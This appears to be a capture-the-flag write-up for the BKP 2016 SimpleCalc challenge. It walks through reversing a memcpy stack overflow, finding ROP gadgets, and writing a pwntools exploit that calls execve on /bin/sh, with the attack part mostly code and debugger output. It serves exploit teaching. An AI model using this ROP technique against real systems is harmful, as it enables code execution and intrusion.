

---
search:
  exclude: true
---
# BKP 2016 SimpleCalc

Holy shit there is a HUGE jump in difficulty at this point, buckle up !

## Downloading the binary file 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → wget https://github.com/guyinatuxedo/nightmare/raw/master/modules/07-bof_static/bkp16_simplecalc/simplecalc
    --2021-03-05 18:28:45--  https://github.com/guyinatuxedo/nightmare/raw/master/modules/07-bof_static/bkp16_simplecalc/simplecalc
    Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
    Resolving github.com (github.com)... 140.82.121.4
    Connecting to github.com (github.com)|140.82.121.4|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://raw.githubusercontent.com/guyinatuxedo/nightmare/master/modules/07-bof_static/bkp16_simplecalc/simplecalc [following]
    --2021-03-05 18:28:46--  https://raw.githubusercontent.com/guyinatuxedo/nightmare/master/modules/07-bof_static/bkp16_simplecalc/simplecalc
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 882266 (862K) [application/octet-stream]
    Saving to: ‘simplecalc’
    
    simplecalc                                                             100%[============================================================================================================================================================================>] 861.59K  2.36MB/s    in 0.4s
    
    2021-03-05 18:28:47 (2.36 MB/s) - ‘simplecalc’ saved [882266/882266]
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → file simplecalc
    simplecalc: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → chmod +x simplecalc
    
    

` 

## Solution 

First let's check what the binary does by executing it:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ./simplecalc
    
            |#------------------------------------#|
            |         Something Calculator         |
            |#------------------------------------#|
    
    Expected number of calculations: 3
    Invalid number.
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ./simplecalc
    
            |#------------------------------------#|
            |         Something Calculator         |
            |#------------------------------------#|
    
    Expected number of calculations: 1
    Invalid number.
    
    
    

The binary file prints out some text, and then asks for some input, and then just says 'invalid' so let's check it from inside ghidra:

So we get the following code:
    
    
    undefined8 main(void)
    
    {
      undefined auStack72 [40];
      int iStack32;
      int iStack28;
      void *pvStack24;
      int iStack12;
      
      iStack28 = 0;
      setvbuf((FILE *)stdin,(char *)0x0,2,0);
      setvbuf((FILE *)stdout,(char *)0x0,2,0);
      print_motd();
      printf("Expected number of calculations: ");
      __isoc99_scanf(&DAT;_00494214,&iStack28;);
      handle_newline();
      if ((iStack28 < 0x100) && (3 < iStack28)) {
        pvStack24 = malloc((long)(iStack28 << 2));
        iStack12 = 0;
        while (iStack12 < iStack28) {
          print_menu();
          __isoc99_scanf(&DAT;_00494214,&iStack32;);
          handle_newline();
          if (iStack32 == 1) {
            adds();
            *(undefined4 *)((long)iStack12 * 4 + (long)pvStack24) = add._8_4_;
          }
          else {
            if (iStack32 == 2) {
              subs();
              *(undefined4 *)((long)iStack12 * 4 + (long)pvStack24) = sub._8_4_;
            }
            else {
              if (iStack32 == 3) {
                muls();
                *(undefined4 *)((long)iStack12 * 4 + (long)pvStack24) = mul._8_4_;
              }
              else {
                if (iStack32 == 4) {
                  divs();
                  *(undefined4 *)((long)iStack12 * 4 + (long)pvStack24) = divv._8_4_;
                }
                else {
                  if (iStack32 == 5) {
                    memcpy(auStack72,pvStack24,(long)(iStack28 << 2));
                    free(pvStack24);
                    return 0;
                  }
                  puts("Invalid option.\n");
                }
              }
            }
          }
          iStack12 = iStack12 + 1;
        }
        free(pvStack24);
      }
      else {
        puts("Invalid number.");
      }
      return 0;
    }
    

Here we see that the main function checks if our input number is between 3 and 0x100, if no tit just prints 'Invalid Number' now let's run the binary again to verify that:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ./simplecalc
    
            |#------------------------------------#|
            |         Something Calculator         |
            |#------------------------------------#|
    
    Expected number of calculations: 5
    Options Menu:
     [1] Addition.
     [2] Subtraction.
     [3] Multiplication.
     [4] Division.
     [5] Save and Exit.
    => 1
    Integer x: 1
    Integer y: 2
    Do you really need help calculating such small numbers?
    Shame on you... Bye
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ./simplecalc
    
            |#------------------------------------#|
            |         Something Calculator         |
            |#------------------------------------#|
    
    Expected number of calculations: 5
    Options Menu:
     [1] Addition.
     [2] Subtraction.
     [3] Multiplication.
     [4] Division.
     [5] Save and Exit.
    => 1
    Integer x: 123456
    Integer y: 654321
    Result for x + y is 777777.
    
    Options Menu:
     [1] Addition.
     [2] Subtraction.
     [3] Multiplication.
     [4] Division.
     [5] Save and Exit.
    => 5
    
    

Now we see some more info about the binary, looking back at the reversed code in ghidra we see some more info:
    
    
    __isoc99_scanf(&DAT;_00494214,&numberCalcs;);
      handle_newline();
      if ((numberCalcs < 0x100) && (3 < numberCalcs)) {
        calculations = malloc((long)(numberCalcs << 2));
    

after scanning for our input, we give a correct number of calculations, we see that it malloc a size equal to **numberCalcs****< 2 ** and then store the pointer to it in the **calculations** variable this is the same operation as doing numverCalcs * 4. Basically, allocating numberCalcs number of integers which each of them are 4 bytes large. Then it will enter into a while loop that runs once for each calculation we will specify. Looking at the assembly code for the multiplication section, we see the muls function:

    
    
            004014d3 83 f8 03        CMP        EAX,0x3
            004014d6 75 23           JNZ        LAB_004014fb
            004014d8 e8 cb fd        CALL       muls                                             
         
    

Now let's take a look at the muls function:
    
    
    void muls(void)
    
    {
      printf("Integer x: ");
      __isoc99_scanf(&DAT;_00494214,mul);
      handle_newline();
      printf("Integer y: ");
      __isoc99_scanf(&DAT;_00494214,0x6c4aa4);
      handle_newline();
      if ((0x27 < mul._0_4_) && (0x27 < mul._4_4_)) {
        mul._8_4_ = mul._4_4_ * mul._0_4_;
        printf("Result for x * y is %d.\n\n",(ulong)mul._8_4_);
        return;
      }
      puts("Do you really need help calculating such small numbers?\nShame on you... Bye");
                        /* WARNING: Subroutine does not return */
      exit(-1);
    }
    

Here it basically checks that the 2 numbers are equal or greater to 0x27, The other operations (add, sub, div are p much the same) The bug that we need to notice is at the 5th option:
    
    
                  if (local_20 == 5) {
                    memcpy(local_48,local_18,(long)(local_1c << 2));
                    free(local_18);
                    return 0;
                  }
    

In here there is the memcpy function being used to copy our calculations into**local_48** which is a vulnerable buffer because it does not do a size check, therefore if we have enough calculations, we can overflow the buffer and overwrite the return address because there is no stack canary to prevent this as you can see below:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → pwn checksec simplecalc
    [*] '/home/nothing/binexp/2/calc/simplecalc'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    
    

Now from here we want to find the offset between the start of our input and the return address using gdb:

We want the first breakpoint to be right after the memcpy function so we choose the address of **0x0040154a**
    
    
    gef➤   b *0x40154a
    Breakpoint 1 at 0x40154a
    gef➤  r
    Starting program: /home/nothing/binexp/2/calc/simplecalc
    
    
            |#------------------------------------#|
            |         Something Calculator         |
            |#------------------------------------#|
    
    Expected number of calculations: 50
    Options Menu:
     [1] Addition.
     [2] Subtraction.
     [3] Multiplication.
     [4] Division.
     [5] Save and Exit.
    => 1
    Integer x: 13371337
    Integer y: 13371337
    Result for x + y is 26742674.
    
    Options Menu:
     [1] Addition.
     [2] Subtraction.
     [3] Multiplication.
     [4] Division.
     [5] Save and Exit.
    => 5
    
    Breakpoint 1, 0x000000000040154a in main ()
    [ Legend: Modified register | Code | Heap | Stack | String ]
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
    $rax   : 0x00007fffffffdef0  →  0x0000000001980f92
    $rbx   : 0x00000000004002b0  →  <_init+0> sub rsp, 0x8
    $rcx   : 0x0
    $rdx   : 0x0
    $rsp   : 0x00007fffffffdee0  →  0x00007fffffffe018  →  0x00007fffffffe34d  →  "/home/nothing/binexp/2/calc/simplecalc"
    $rbp   : 0x00007fffffffdf30  →  0x0000000000000000
    $rsi   : 0x00000000006c8c98  →  0x0000000000020371
    $rdi   : 0x00007fffffffdfb8  →  0x0000000000000000
    $rip   : 0x000000000040154a  →   mov rax, QWORD PTR [rbp-0x10]
    $r8    : 0x0
    $r9    : 0x0
    $r10   : 0x0
    $r11   : 0x0
    $r12   : 0x0
    $r13   : 0x0000000000401c00  →  <__libc_csu_init+0> push r14
    $r14   : 0x0000000000401c90  →  <__libc_csu_fini+0> push rbx
    $r15   : 0x0
    $eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
    0x00007fffffffdee0│+0x0000: 0x00007fffffffe018  →  0x00007fffffffe34d  →  "/home/nothing/binexp/2/calc/simplecalc"       ← $rsp
    0x00007fffffffdee8│+0x0008: 0x0000000100400d41 ("A\r@"?)
    0x00007fffffffdef0│+0x0010: 0x0000000001980f92   ← $rax
    0x00007fffffffdef8│+0x0018: 0x0000000000000000
    0x00007fffffffdf00│+0x0020: 0x0000000000000000
    0x00007fffffffdf08│+0x0028: 0x0000000000000000
    0x00007fffffffdf10│+0x0030: 0x0000000000000000
    0x00007fffffffdf18│+0x0038: 0x0000000000000000
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
         0x40153d        rex.RB ror BYTE PTR [r8-0x77], 0xce
         0x401542        mov    rdi, rax
         0x401545        call   0x4228d0 
    ●→   0x40154a        mov    rax, QWORD PTR [rbp-0x10]
         0x40154e        mov    rdi, rax
         0x401551        call   0x4156d0 
         0x401556        mov    eax, 0x0
         0x40155b        jmp    0x401588 
         0x40155d        mov    edi, 0x494402
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
    [#0] Id 1, Name: "simplecalc", stopped 0x40154a in main (), reason: BREAKPOINT
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
    [#0] 0x40154a → main()
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤
    
    

Here we first set the breakpoint at **0x40154a** , then we ran the binary, we selected 50 calculations, then made an addition with the 2 numbers 13371337 and 13371337 which gave us a result of **26742674** , and then we selected 5 to exit and reach the **memcpy** call and thus, our breakpoint, Now what we want to know is where is the result (26742674) stored ? To know this, we need to first know the hex value of our result:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/calc]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex(26742674)
    '0x1980f92'
    
    

Now we know that we have to find **0x1980f92** in memory, so we search for the 0x1980f92 pattern in gdb :
    
    
    gef➤  search-pattern '0x1980f92'
    [+] Searching '0x1980f92' in memory
    gef➤  search-pattern 0x1980f92
    [+] Searching '0x1980f92' in memory
    gef➤
    

Now as you can see **0x198 0f92** is 7 bytes long. if we try to search that pattern, we won't find it: 
    
    
    
    gef➤  search-pattern 0x1980f92
    [+] Searching '0x1980f92' in memory
    
    

So here we need to add an extra zero to end up with 8 bytes: **0x0198 0f92** and then we can find the pattern in memory:
    
    
    gef➤  search-pattern 0x01980f92
    [+] Searching '\x92\x0f\x98\x01' in memory
    [+] In '[heap]'(0x6c3000-0x6e9000), permission=rw-
      0x6c4a88 - 0x6c4a98  →   "\x92\x0f\x98\x01[...]"
      0x6c8bd0 - 0x6c8be0  →   "\x92\x0f\x98\x01[...]"
    [+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
      0x7fffffffb158 - 0x7fffffffb168  →   "\x92\x0f\x98\x01[...]"
      0x7fffffffdef0 - 0x7fffffffdf00  →   "\x92\x0f\x98\x01[...]"
    
    gef➤  info frame
    Stack level 0, frame at 0x7fffffffdf40:
     rip = 0x40154a in main; saved rip = 0x0
     Arglist at 0x7fffffffdf30, args:
     Locals at 0x7fffffffdf30, Previous frame's sp is 0x7fffffffdf40
     Saved registers:
      rbp at 0x7fffffffdf30, rip at 0x7fffffffdf38
    
    

Now here we see that the pattern is at **0x7fffffffdef0** and the return address is at **0x7fffffffdf38**. So we can calculate the offset:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [blog/binexp/2]
    → python3
    Python 3.9.2 (default, Feb 20 2021, 18:40:11)
    [GCC 10.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> hex(  0x7fffffffdef0   -  0x7fffffffdf38    )
    '-0x48'
    
    

Now we know that there is a 0x48 bytes offset between the pattern an the return call. There are 4 bytes for each integer, so we can divide it by 4:
    
    
    >>> int(0x48)
    72
    >>> int(72 / 4)
    18
    
    

Now we know that we will need 18 integers, Now since the binary is statically linked and there is no PIE (as we saw earlier in the pwn checksec command output), We can build a rop chain using the binary for gadgets and without an infoleak. The ROP chain will make an execve syscall to **/bin/sh** just like in the previous tutorials except that now we need to take into account 4 registers that we need to control in order to make this syscall:

As we saw in our [previous](../asm/2.md) x86_64 assembly tutorials, we need rax to take in our syscall ID, rdi to take the first arguement, rsi to take the 2nd arguement and rdx to take the third arguement. We can use this list to know more about syscalls, and since we are in x86_64 we will use the syscall ID 59 (0x3b) to trigger execve:
    
    
    rax : 0x3b 			# syscall ID
    rdi : ptr to "/bin//sh"		# arg 1 to spawn /bin/sh
    rsi : 0x0			# arg 2 
    rdx : 0x0 			# arg 3
    

To do this, we need what's known as 'gadgets' to control those 4 registers. to find these gadgets we will use the following template**pop rax; ret**. we will use [ROPGadget.py](https://github.com/JonathanSalwan/ROPgadget): 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [~]
    → sudo pip3 install capstone
    [sudo] password for nothing:
    Requirement already satisfied: capstone in /usr/lib/python3.9/site-packages (4.0.2)
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [~]
    → cd /opt
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [/opt]
    → git clone https://github.com/JonathanSalwan/ROPgadget
    fatal: could not create work tree dir 'ROPgadget': Permission denied
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [/opt]
    → sudo !!
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [/opt]
    → sudo git clone https://github.com/JonathanSalwan/ROPgadget
    Cloning into 'ROPgadget'...
    remote: Enumerating objects: 20, done.
    remote: Counting objects: 100% (20/20), done.
    remote: Compressing objects: 100% (14/14), done.
    remote: Total 3715 (delta 7), reused 12 (delta 6), pack-reused 3695
    Receiving objects: 100% (3715/3715), 22.62 MiB | 6.86 MiB/s, done.
    Resolving deltas: 100% (2286/2286), done.
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [/opt]
    → cd ROPgadget
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [/opt/ROPgadget]
    → ls
    AUTHORS  LICENSE_BSD.txt  README.md  ropgadget  ROPgadget.py  scripts  setup.cfg  setup.py  test-suite-binaries
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [/opt/ROPgadget]
    → echo $PATH
    /usr/local/bin:/usr/bin:/bin:/usr/local/sbin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl:/var/lib/snapd/snap/bin
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [/opt/ROPgadget]
    → sudo ln -s ROPgadget.py /usr/local/bin/ROPgadget.py
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [/opt/ROPgadget]
    → ROPgadget
    [Error] Need a binary filename (--binary/--console or --help)
    
    

Once that's done we can continue and find the gadgets of rax, rdi, rsi and rdx:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ROPgadget --binary simplecalc | grep "pop rax ; ret"
    0x000000000044db32 : add al, ch ; pop rax ; ret
    0x000000000040b032 : add al, ch ; pop rax ; retf 2
    0x000000000040b02f : add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
    0x000000000040b030 : add byte ptr [rax], al ; add al, ch ; pop rax ; retf 2
    0x00000000004b0801 : in al, 0x4c ; pop rax ; retf
    0x000000000040b02e : in al, dx ; add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
    0x0000000000474855 : or dh, byte ptr [rcx] ; ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
    0x000000000044db34 : pop rax ; ret
    0x000000000045d707 : pop rax ; retf
    0x000000000040b034 : pop rax ; retf 2
    0x0000000000474857 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ROPgadget --binary simplecalc | grep "pop rdi ; ret"
    0x000000000044bbbc : inc dword ptr [rbx - 0x7bf0fe40] ; pop rdi ; ret
    0x0000000000401b73 : pop rdi ; ret
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ROPgadget --binary simplecalc | grep "pop rsi ; ret"
    0x00000000004ac9b4 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rsi ; ret
    0x00000000004ac9b6 : add byte ptr [rax], al ; pop rsi ; ret
    0x0000000000437aa9 : pop rdx ; pop rsi ; ret
    0x0000000000401c87 : pop rsi ; ret
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ROPgadget --binary simplecalc | grep "pop rdx ; ret"
    0x00000000004a868c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rdx ; ret 0x45
    0x00000000004a868e : add byte ptr [rax], al ; pop rdx ; ret 0x45
    0x00000000004afd61 : js 0x4afdde ; pop rdx ; retf
    0x0000000000414ed0 : or al, ch ; pop rdx ; ret 0xffff
    0x0000000000437a85 : pop rdx ; ret
    0x00000000004a8690 : pop rdx ; ret 0x45
    0x00000000004b2dd8 : pop rdx ; ret 0xfffd
    0x0000000000414ed2 : pop rdx ; ret 0xffff
    0x00000000004afd63 : pop rdx ; retf
    0x000000000044af60 : pop rdx ; retf 0xffff
    0x00000000004560ae : test byte ptr [rdi - 0x1600002f], al ; pop rdx ; ret
    
    

Now we know that the gadgets we need to control the 4 registers are :
    
    
    rax: 0x44db34
    rdi: 0x401b73
    rsi: 0x401c87 
    rdx: 0x437a85 
    
    

Now this is where the writeup of this binary challenge hits a very random point. you basically have to find a gadget that will write an eight byte value to a memory region, and it's a mov involving that will move 4 bytes from **rdx** to whatever memory is **pointed** by **rax** :
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ROPgadget --binary simplecalc | grep "mov" | grep "rdx" | grep "\[rax\]" | grep "ptr"
    
    
    
    
    0x000000000046a7a9 : mov qword ptr [rax], rdx ; jmp 0x46a257
    0x0000000000461a5f : mov qword ptr [rax], rdx ; mov eax, dword ptr [rsi] ; pop rbx ; ret
    0x000000000040274f : mov qword ptr [rax], rdx ; mov edx, 0xfe8 ; jmp 0x4026b4
    0x000000000046277d : mov qword ptr [rax], rdx ; mov qword ptr [rax + 0x40], rsi ; jmp 0x46272c
    0x000000000040a3ee : mov qword ptr [rax], rdx ; mov qword ptr [rax + 8], rdx ; jmp 0x40a102
    0x000000000047efb8 : mov qword ptr [rax], rdx ; pop rbx ; ret
    
    **0x000000000044526e : mov qword ptr [rax], rdx ; ret**
    
    0x0000000000462730 : mov qword ptr [rax], rdx ; xor eax, eax ; ret
    
    

So here we see at the address **0x0044526e** that this mov instruction will move the value of rdx into the memory address that is pointed by rax. This is also convenient because we have gadgets for the rdx and rax registers. The last gadget we need is a syscall gadget: 
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → ROPgadget --binary simplecalc | grep ": syscall"
    0x0000000000400488 : syscall
    
    

We don't have a choice here, the only syscall is at **0x00400488** , Now we need to figure out where in memory we will write the string **/bin/sh** So we need to check the memory mappings while the binary is running:
    
    
    gef➤  vmmap
    [ Legend:  Code | Heap | Stack ]
    Start              End                Offset             Perm Path
    0x0000000000400000 0x00000000004c1000 0x0000000000000000 r-x /home/nothing/binexp/2/calc/simplecalc
    0x00000000006c0000 0x00000000006c3000 0x00000000000c0000 rw- /home/nothing/binexp/2/calc/simplecalc
    0x00000000006c3000 0x00000000006e9000 0x0000000000000000 rw- [heap]
    0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
    
    

We see that the memory region begins at **0x6c1000** and ends at **0x6c3000** the permissions allow us to read and write to it, and in addition, that is mapped from the binary. Since there is no PIE the addresses will be the same everytime, therefore we don't need an infoleak. Here we want to take a look at the memory addresses after**0x6c0000** to see if we can find an empty space where we can write our stuff:
    
    
    gef➤  x/g 0x6c0000
    0x6c0000:       0x200e41280e41300e
    
    gef➤  x/20g 0x6c0000
    0x6c0000:       0x200e41280e41300e      0xe42100e42180e42
    0x6c0010:       0xb4108 0xd0a40000002c
    0x6c0020:       0x6cfffd1fd0    0x80e0a69100e4400
    0x6c0030:       0xb42080e0a460b4b       0xe470b49080e0a57
    0x6c0040:       0x8     0xd0d400000024
    0x6c0050:       0x144fffd2010   0x5a020283100e4500
    0x6c0060:       0xee3020b41080e0a       0x8
    0x6c0070:       0xd0fc00000064  0x26cfffd2138
    0x6c0080:       0xe47028f100e4200       0x48d200e42038e18
    0x6c0090:       0x300e41058c280e42      0x440783380e410686
    
    gef➤  x/20g 0x6c1000
    0x6c1000:       0x0     0x0
    0x6c1010:       0x0     0x431070
    0x6c1020:       0x430a40        0x428e20
    0x6c1030:       0x4331b0        0x424c50
    0x6c1040:       0x42b940        0x423740
    0x6c1050:       0x4852d0        0x4178d0
    0x6c1060:       0x0     0x0
    0x6c1070 <****_dl_tls_static_size>: 0x1180  0x0
    0x6c1080 <****_nl_current_default_domain>:  0x4945f7        0x0
    0x6c1090 <****locale_alias_path.10061>:     0x49462a        0x6c32a0

It looks like **0x6c1000** is empty, so we should be able to write to it without messing up anything.

Now we need to worry about what deals with what we are overflowing onto the stack:
    
    
                                 **************************************************************
                                 *                          FUNCTION                          *
                                 **************************************************************
                                 undefined main()
                 undefined         AL:1           
                 undefined4        Stack[-0xc]:4  local_c                                 XREF[7]:     00401443(W), 
                                                                                                       00401481(R), 
                                                                                                       004014af(R), 
                                                                                                       004014dd(R), 
                                                                                                       00401508(R), 
                                                                                                       00401567(RW), 
                                                                                                       0040156e(R)  
                 undefined8        Stack[-0x18]:8 local_18                                XREF[8]:     0040143f(W), 
                                                                                                       0040148e(R), 
                                                                                                       004014bc(R), 
                                                                                                       004014ea(R), 
                                                                                                       00401515(R), 
                                                                                                       00401537(R), 
                                                                                                       0040154a(R), 
                                                                                                       00401577(R)  
                 undefined4        Stack[-0x1c]:4 local_1c                                XREF[7]:     00401392(W), 
                                                                                                       004013e9(*), 
                                                                                                       00401409(R), 
                                                                                                       00401413(R), 
                                                                                                       0040142f(R), 
                                                                                                       0040152e(R), 
                                                                                                       0040156b(R)  
                 undefined4        Stack[-0x20]:4 local_20                                XREF[6]:     00401454(*), 
                                                                                                       00401474(R), 
                                                                                                       004014a2(R), 
                                                                                                       004014d0(R), 
                                                                                                       004014fb(R), 
                                                                                                       00401526(R)  
                 undefined1        Stack[-0x48]:1 local_48                                XREF[1]:     0040153b(*)  
                 undefined4        Stack[-0x4c]:4 local_4c                                XREF[1]:     0040138b(W)  
                 undefined8        Stack[-0x58]:8 local_58                                XREF[1]:     0040138e(W)  
                                 main                                            XREF[4]:     Entry Point(*), 
                                                                                              _start:00400f6b(*), 
                                                                                              _start:00400f6b(*), 004b3078(*)  
            00401383 55              PUSH       RBP
    
    
    
    
                  if (local_20 == 5) {
                    memcpy(local_48,local_18,(long)(local_1c << 2));
                    free(local_18);
                    return 0;
                  }
    

So here we see that between the vulnerable buffer **local_48** (which is handled inside of the vulnerable memcpy call we saw earlier) and the bottom of the stack there is the **local_18** pointer that contains our calculations. It will get overwritten as part of the overflow. This is a problem since this address is freed prior to our code being executed as you can see above.

Now the trick here was that you needed to take a look at the [sourcecode](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#free) of the free functioni (lines 3092- 3103):
    
    
    void
    __libc_free (void *mem)
    {
      mstate ar_ptr;
      mchunkptr p;                          /* chunk corresponding to mem */
      void (*hook) (void *, const void *)
        = atomic_forced_read (__free_hook);
      if (__builtin_expect (hook != NULL, 0))
        {
          (*hook)(mem, RETURN_ADDRESS (0));
          return;
    

Here you see that if the arguement to the free() function is a null pointer (0x0) then it just returns. Since the function writing the data for the overflow is memcpy, we can just write null bytes. So if we just fill up the space between the start of our input and the return address with null bytes, we will be fine. With that, we can now create the exploit including the ROP chain to spawn a shell and print out the flag:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/14 ] [binexp/2/calc]
    → vim exploit.py
    
    
    
    
    from pwn import *
    
    #target is the variable for the process ./simplecalc
    target = process('./simplecalc')
    
    #recieve text until calculations:
    target.recvuntil('calculations: ')
    #we want 100 calculations)
    target.sendline('100')
    
    
    

Now here we use the 'target' variable to follow the process of our binary, we want to recieve the output text until 'calculations: ', Then we want to send '100' as our choice for calculations. Next we will setup our rop gadgets:
    
    
    # Establish our rop gadgets
    popRax = 0x44db34
    popRdi = 0x401b73
    popRsi = 0x401c87
    popRdx = 0x437a85
    
    # 0x000000000044526e : mov qword ptr [rax], rdx ; ret
    movGadget = 0x44526e
    syscall = 0x400488
    
    

So here we set the constants we found earlier the addresses of the Rax, rdi, rsi and rdx gadgets, as well as the movGadget and the syscall we need. Next we need to submit an 'addition'(option 1) to the binary file of x=100 and y=arguement - 100:
    
    
    def addSingle(x):
      target.recvuntil("=> ")
      target.sendline("1")
    
      target.recvuntil("Integer x: ")
      target.sendline("100")
    
      target.recvuntil("Integer y: ")
      target.sendline(str(x - 100))  #making use the arguement being passed into the function here
    
    

And the second function makes use of the function we defined above:
    
    
    def add(z):
      x = z & 0xffffffff
      y = ((z & 0xffffffff00000000) >> 32)
      addSingle(x)
      addSingle(y)
    
    # Fill up the space between the start of our input and the return address
    for i in range(9):
      # Fill it up with null bytes, to make the ptr passed to free be a null pointer
      # So free doesn't crash
      add(0x0)
    
    

This will make sure we fill up the space between the start of our input and the return address with 9 nullbytes to make the ptr passed to the free() function be a null pointer. The add() function that is defined here makes use of addSingle() that we defined above. These 2 additions will nake sure that we give input via addition, and next we need to make our actual ROP chain:
    
    
    #Write "/bin/sh" to 0x6c1000
    
    #pop rax, 0x6c1000 ; ret
    #pop rdx, "/bin/sh\x00" ; ret
    #mov qword ptr [rax], rdx ; ret
    
    
    add(popRax)
    add(0x6c1000)
    
    add(popRdx)
    add(0x0068732f6e69622f) # "/bin/sh" in hex
    
    
    

This will make use of the 'add' function we defined above, to put the value of popRax(0x44db34) to the ROPchain, as well as our actual shellcode: 
    
    
    # Move the needed values into the registers
    #pop rax, 0x3b ; ret
    #pop rdi, 0x6c1000 ; ret
    #pop rsi, 0x0 ; ret
    #pop rdx, 0x0 ; ret
    
    add(movGadget)
    
    add(popRax) # Specify which syscall to make
    add(0x3b)
    
    add(popRdi) # Specify pointer to "/bin/sh"
    add(0x6c1000)
    
    add(popRsi) # Specify no arguments or environment variables
    add(0x0)
    add(popRdx)
    add(0x0)
    
    add(syscall) # Syscall instruction
    
    

We specify the syscall ID into rax, the first arguement (/bin/sh) into rdi, and then both rsi and rdx (2nd and 3rd arguements) contain nullbytes. And lastly we make the syscall to end our ropchain.
    
    
    target.sendline('5') # Save and exit to execute memcpy and trigger buffer overflow
    
    # Drop to an interactive shell to use our new shell
    target.interactive()
    
    

At last, once we finished feeding the ropchain into the binary, we get to the memcpy call to trigger it and then drop into an interactive shell:
    
    
    [ 192.168.0.18/24 ] [ /dev/pts/2 ] [binexp/2/calc]
    → python3 exploit.py
    [+] Starting local process './simplecalc': pid 3475833
    [*] Switching to interactive mode
    Result for x + y is 0.
    
    Options Menu:
     [1] Addition.
     [2] Subtraction.
     [3] Multiplication.
     [4] Division.
